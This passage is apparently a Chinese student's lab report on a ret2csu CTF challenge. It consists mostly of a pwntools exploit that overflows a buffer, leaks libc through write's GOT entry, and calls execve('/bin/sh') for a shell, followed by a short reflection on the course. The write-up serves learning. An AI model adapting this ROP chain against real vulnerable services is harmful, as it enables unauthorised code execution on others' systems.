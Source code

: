 ```python 
# .text:0000000000400610 4C 8B 64 24 18                mov     r12, [rsp+38h+var_20]
# .text:0000000000400615 4C 8B 6C 24 20                mov     r13, [rsp+38h+var_18]
# .text:000000000040061A 4C 8B 74 24 28                mov     r14, [rsp+38h+var_10]
# .text:000000000040061F 4C 8B 7C 24 30                mov     r15, [rsp+38h+var_8]
# .text:0000000000400624 48 83 C4 38                   add     rsp, 38h
# .text:0000000000400628 C3      
#                       retn


def com_gadget(null, rbx, rbp, r12, r13, r14, r15, main):
  #null为0x8空缺
  #main为main函数地址
    payload = b'a' * 0x88 			#0x80+8个字节填满栈空间至ret返回指令
    payload += p64(csu_gadget_2) 
    payload += p64(null) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    payload += p64(csu_gadget_1)
    payload += b'a' * 0x38     # 0x38个字节填充平衡堆栈造成的空缺
    payload += p64(main)
    sh.send(payload)    
    sleep(1)						#暂停等待接收

sh.recvuntil('Hello, World\n')
#利用write函数打印write函数地址并返回main函数
com_gadget(0,0, 1, write_got, 1, write_got, 8, main_addr)

write_addr = u64(sh.recv(8))    #接收write函数地址
libc = LibcSearcher('write', write_addr)	#查找libc版本
libc_base = write_addr - libc.dump('write') #计算该版本libc基地址
execve_addr = libc_base + libc.dump('execve') #查找该版本libc execve函数地址

sh.recvuntil('Hello, World\n')
#read函数布局，将execve函数地址和/bin/sh字符串写进bss段首地址
com_gadget(0,0, 1, read_got, 0, bss_base, 16, main_addr)
sh.send(p64(execve_addr) + b'/bin/sh\x00')#凑足十六位

sh.recvuntil('Hello, World\n')
#调用bss段中的execve('/bin/sh')
com_gadget(0,0, 1, bss_base, bss_base+8, 0, 0, main_addr)
sh.interactive()
```



**执行结果如下：**

![image-20230424214014696](https://gitee.com/noble_chiam/Pic-Go-Pic-Bed/raw/master/Typora/2023-04-24 21:40:16.png)

## 4. 收获与问题

由于之前是计科专业，从来没接触过网安也没打过CTF，这门课程让我收获了很多。

在实验中遇到了，checksec版本不一样等很多零碎的问题，开始看CTF-Wiki的实例的时候，感觉说的太快看不懂，后来慢慢的多看了几篇博客就理解了。ret2csu也是对ret2libc的一个利用。还是收益良多的，一开始是打算做ret2libc和那些简单题目，但是觉得要挑战一下自我。
